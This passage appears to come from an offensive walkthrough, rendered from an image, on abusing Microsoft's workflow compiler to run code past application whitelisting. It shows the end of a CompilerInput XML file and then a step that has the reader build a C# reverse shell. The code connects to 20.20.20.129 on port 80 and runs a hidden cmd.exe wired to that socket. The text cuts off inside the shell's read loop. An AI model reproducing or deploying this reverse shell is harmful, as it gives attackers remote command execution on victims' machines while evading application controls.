 ```xml
    <treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
    <warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
    <win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <d2p1:checkTypes>false</d2p1:checkTypes>
    <d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
    <d2p1:compilerOptions i:nil="true" />
    <d2p1:generateCCU>false</d2p1:generateCCU>
    <d2p1:languageToUse>CSharp</d2p1:languageToUse>
    <d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
    <d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
    <d2p1:mtInfo i:nil="true" />
    <d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
  </parameters>
</CompilerInput>
```
### Step #2: creat the below C# reverse shell with the name `Rev.Shell` and set the `lhost` and `lport`
```C#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Net;
using System.Net.Sockets;
using System.Workflow.Activities;

	public class Program : SequentialWorkflowActivity
	{
		static StreamWriter streamWriter;

		public Program()
		{
			using(TcpClient client = new TcpClient("20.20.20.129", 80))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
```